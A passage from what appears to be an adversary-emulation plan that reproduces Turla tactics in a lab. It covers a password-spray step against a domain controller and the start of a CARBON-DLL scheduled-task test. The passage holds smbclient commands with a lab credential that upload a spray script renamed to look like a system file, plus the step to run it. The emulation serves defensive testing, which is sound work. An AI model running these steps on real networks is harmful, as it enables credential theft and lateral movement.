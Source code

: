 <br>

## Test 3: Password Spray

:microphone: `Voice Track:`

Test 3 emulates Turla laterally moving to the domain controller by conducting
password spraying via a batch script to retrieve a domain admin's credentials
to the domain controller. The batch script sprays several of the discovered
domain admin accounts with weak passwords, one of which successfully mounts the
`C:\` drive of the domain controller.

---

### ☣️ Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy the
password spray script to `hobgoblin`:

```bash
cd /opt/day1/turla/Resources/payloads/carbon/
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.20.102/C$ -c 'put password_spray.bat Users\Public\winsas64.bat'
```

:arrow_right: Return to your RDP session to `hobgoblin` as `Gunter`.

:arrow_right: Open a **Windows Command Prompt** and execute the password spray script.

```bat
"C:\Users\Public\winsas64.bat"
```

:heavy_exclamation_mark: Verify that the script successfully sprays `Frieda`'s
password by checking that output matches the following:

```text
The command completed successfully.

frieda:Password3! SUCCESS
```

### :moyai: Source Code

* [Password spray batch script](../../Resources/payloads/carbon/password_spray.bat)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>

<br>

## Test 4: Carbon on Domain Controller

:microphone: `Voice Track:`

Test 4 emulates execution of CARBON-DLL on the domain controller via scheduled
task.

---